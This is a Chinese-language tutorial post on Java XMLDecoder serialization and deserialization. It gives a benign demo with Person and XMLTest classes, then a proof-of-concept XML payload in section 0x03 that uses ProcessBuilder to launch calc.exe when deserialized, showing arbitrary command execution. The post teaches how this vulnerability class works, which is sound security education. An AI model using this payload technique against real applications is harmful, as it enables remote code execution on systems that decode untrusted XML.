


### 0x01 前言

之前我们接触过java比较基础且普遍的一种反序列化，但是在java中反序列化的形式并不是那么单一，今天我要要介绍的就是XMLDecoder这个类的序列化以及反序列化。

### 0x02 XMLDecoder介绍

这个类是jdk自带的，位置是`java.beans.XMLDecoder` ， 这个类的序列化就是将java对象转换成xml文件，反序列化是把特定格式的xml文件转换成java对象。

我们还是用一个小demo来熟悉下它的使用方式。

创建一个类，类里面有两个方法，一个是序列化操作，一个是反序列化操作

```java
import java.beans.XMLDecoder;
import java.beans.XMLEncoder;
import java.io.*;

public class XMLTest{
    // 序列化对象到文件person.xml
    public void xmlEncode() throws FileNotFoundException {
        Person person = new Person();
        person.setAge(18);
        person.setName("axin");
        XMLEncoder xmlEncoder = new XMLEncoder(new BufferedOutputStream(new FileOutputStream("person.xml")));
        xmlEncoder.writeObject(person);
        xmlEncoder.close();
        System.out.println("序列化结束！");
    }

    // 反序列化
    public void xmlDecode() throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("person.xml")));
        Person person = (Person)xmlDecoder.readObject();
        xmlDecoder.close();
        person.sayHello();
        System.out.println("反序列化成功!");
    }

    public static void main(String[] args) throws FileNotFoundException {
        XMLTest xmlTest = new XMLTest();
        xmlTest.xmlEncode();
        xmlTest.xmlDecode();
    }
}
```

其中Person类如下：

```java
public class Person {
    String name = "";
    int age;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void sayHello(){
        System.out.println("Hello, my name is "+name);
    }
}
```

运行XMLTest类，会在当前工程目录下生成一个person.xml文件，并且终端会打印调用sayHello方法的结果


序列化生成的xml文件格式如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_231" class="java.beans.XMLDecoder">
 <object class="Person">
  <void property="age">
   <int>18</int>
  </void>
  <void property="name">
   <string>axin</string>
  </void>
 </object>
</java>
```

反序列化上述的xml文件，然后执行sayHello方法



### 0x03 利用方法

我们已经得知XMLDecoder常见的序列化与反序列化的方法，那么怎么利用呢?

我们可以利用其反序列化机制执行任意对象的任意命令，例如构造如下xml文件：

```xml
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc.exe</string>
            </void>
        </array>
        <void method="start">
        </void>
    </object>
</java>
```

上述xml文件如果被反序列化会执行ProcessBuilder的start方法，弹个计算器



### 其他

这一章只是简单的XMLDecoder反序列化的原理，同样的，我还是会找一个案例来帮助大家更清晰的认识该漏洞,当然，换汤不换药,漏洞的发生场景变了，本质是不变的~

下一章，我们就看看weblogic中的XMLDecoder反序列化漏洞吧


